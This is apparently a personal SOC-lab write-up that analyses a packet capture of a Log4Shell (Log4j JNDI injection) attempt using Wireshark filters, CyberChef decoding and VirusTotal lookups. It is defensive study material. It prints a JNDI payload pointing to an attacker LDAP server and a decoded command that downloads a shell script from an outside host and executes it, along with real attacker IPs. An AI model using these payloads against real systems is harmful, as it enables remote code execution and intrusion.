



#  Remote Code Execution Attempt via Log4j (JNDI Injection)

## Overview

In this lab, I documents the investigation of a malicious packet capture (PCAP) containing a real-world Log4j (Log4Shell) exploit attempt. The objective was to detect signs of remote code execution (RCE), identify Indicators of Compromise (IOCs), and validate attacker infrastructure using open-source tools. This project demonstrates skills in threat hunting, packet analysis, payload decoding, and threat intelligence.

##  Objective

- Analyze a suspicious `.pcapng` file  
- Detect Log4j exploit attempts via JNDI injection  
- Decode any hidden payloads  
- Confirm if any callback/C2 behavior occurred  
- Extract IOCs and validate threat infrastructure
  
---

##  Tools Used

- **Wireshark** (v4.4.6)  
- **CyberChef** (Base64 decoding)  
- **VirusTotal** (IP reputation lookup)

----

## Detection Techniques Used

- Wireshark display filters
- TCP stream inspection
- CyberChef decoding
- IP reputation check via VirusTotal

---

### Step 1 : Initial Packet Capture Review

- Loaded the `.pcapng` file into **Wireshark**
- Since this was an offline PCAP, interface selection was irrelevant

This shows suspicious traffic where JNDI strings are present in HTTP request payloads—an indicator of potential Log4j exploitation attempts.

---

### Step 2: Applied Filter to Detect Log4j Exploits

**Filter Used:** ip contains "jndi"

**Goal:** Detect `${jndi:...}` pattern commonly used in Log4Shell attacks

**Findings:**

- Multiple HTTP POST requests to `198.71.247.91` (SERVER IP)
- Suspicious `User-Agent` headers containing: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/...}

---

### Step 3: Isolate Callback Behavior

This screenshot captures both the use of the composite filter and a specific request containing a Base64-encoded command in the `User-Agent` header.

**Goal:** Identify callback attempts to attacker-controlled servers (C2).

---

### Step 4: Decode the Payload with CyberChef

**Base64 Payload Extracted:**

d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==

**Decoded with CyberChef:**  

wget http://62.210.130.250/lh.sh ; chmod +x lh.sh; ./lh.sh

 
This screenshot shows the decoding process in **CyberChef**, where the Base64-encoded string is transformed into a shell command. The output reveals the intent to download and execute a remote shell script, indicating a clear attempt at remote code execution.

**Interpretation:**

- Downloads a shell script from `62.210.130.250`
- Makes it executable and runs it
- Confirms a remote code execution attempt

---

### Step 5: Validate Malware Host with VirusTotal
 
This screenshot shows that multiple security vendors (e.g., BitDefender, ESET, Dr.Web) flagged this IP as **Malicious**, **Malware**, or **Phishing**.

**Queried IP:** `62.210.130.250`  
**Result:** Flagged as malicious by 12+ security vendors

---

## 🔎 Additional Observations

- Attacker LDAP server `45.137.21.9:1389` delivered the malicious redirect
- Script `lh.sh` likely contains second-stage malware or C2 payload

---

##  Filters Used

- `ip contains "jndi"`  
- `tcp.flags == 0x002 and ip.src == 198.71.247.91`  
- `frame contains "ldap"`  
- `http contains "Base64"`  
- `http.request.method == "POST"`

---

## 🚨 Indicators of Compromise (IOCs)

| Type               | Value                          |
|--------------------|--------------------------------|
| Attacker LDAP IP   | `45.137.21.9`                  |
| Malware Host IP    | `62.210.130.250`               |
| Targeted Server IP | `198.71.247.91`                |
| Payload Pattern    | `${jndi:ldap://...}`           |
| Payload Script     | `lh.sh` (via `wget`)           |

---

## 💡 Summary of Insights

- Real-world **Log4j RCE** attempt detected
- Payload was **Base64 encoded** to obscure intent
- Malicious infrastructure still active at time of analysis
- No full C2 stream detected, but **SYN packets suggest callbacks**
  
---

## 📚 Lessons Learned

- Log4j exploits can hide in HTTP headers like `User-Agent`
- Always decode suspicious strings to understand payload behavior
- Outbound SYNs may indicate attempted **C2 communication**
- Cross-referencing IOCs with services like **VirusTotal** increases confidence

---

## ✅ Conclusion

This concludes **Case Study #1** in the Network Threat Hunting Lab.  
It demonstrates a full-stack analysis pipeline suitable for my:

- SOC analyst internship applications  
- Blue team/IR skill demonstration  
- Personal cybersecurity lab documentation

---

* This personal lab project demonstrates my understanding of network protocols, threat patterns, and detection techniques used in real SOC environments.

